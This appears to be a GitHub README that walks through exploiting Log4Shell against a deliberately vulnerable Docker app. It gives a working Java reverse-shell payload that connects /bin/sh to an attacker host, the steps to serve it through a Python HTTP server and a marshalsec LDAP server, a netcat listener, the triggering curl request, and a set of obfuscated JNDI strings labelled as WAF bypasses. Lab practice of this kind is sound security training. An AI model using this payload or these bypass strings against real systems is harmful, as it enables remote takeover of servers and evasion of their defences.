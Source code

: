 # log4jshell demonstration
log4j setup demonstration


# Setting up docker and running vulnerable web application on docker container
Install docker in kali linux

Then download the below repository

```
sudo git clone https://github.com/christophetd/log4shell-vulnerable-app.git
```

Then the run the below commands to start vulnerable web application on port 8080
```
sudo docker build . -t vulnerable-app
```
```
sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
# Creating payload and setting up python server

Use below java code and save it as Exploit.java

Change the host and port details as you setup for nc listner

```javascript
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

  public Exploit() throws Exception {
    String host="%s";
    int port=%s;
    String cmd="/bin/sh";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()) {
      while(pi.available()>0)
        so.write(pi.read());
      while(pe.available()>0)
        so.write(pe.read());
      while(si.available()>0)
        po.write(si.read());
      so.flush();
      po.flush();
      Thread.sleep(50);
      try {
        p.exitValue();
        break;
      }
      catch (Exception e){
      }
    };
    p.destroy();
    s.close();
  }
}
```

Run the below command to build Exploit.class

Install javac package with below command
```
sudo apt install default-jdk
```
```
sudo javac Exploit.java -source 8 -target 8
```
```
sudo python3 -m http.server 8888
```
# Setting up LDAP server
```
sudo git clone https://github.com/mbechler/marshalsec.git
```
```
sudo mvn package -DskipTests
```
```
cd target
```
```
sudo java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Exploit"
```
setup netcat listner
```
sudo nc -lvp 9999
```
# will execute below payload to get a shell
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Exploit\}
```
# WAF bypass
```
${\u006a\u006e\u0064\u0069:ldap://your-private-ip:1389/Exploit\}
```
```
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldap://your-private-ip:1389/Exploit\}
```
```
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}://your-private-ip:1389/Exploit\}
```
```
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://your-private-ip:1389/Exploit\}
```
```
${jnd${sys:SYS_NAME:-i}:ldap://your-private-ip:1389/Exploit\}
```
```
${jnd${upper:ı}:ldap://your-private-ip:1389/Exploit\}
```
```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://your-private-ip:1389/Exploit\}
```
```
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://your-private-ip:1389/Exploit\}
```
```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//your-private-ip:1389/Exploit\}
```
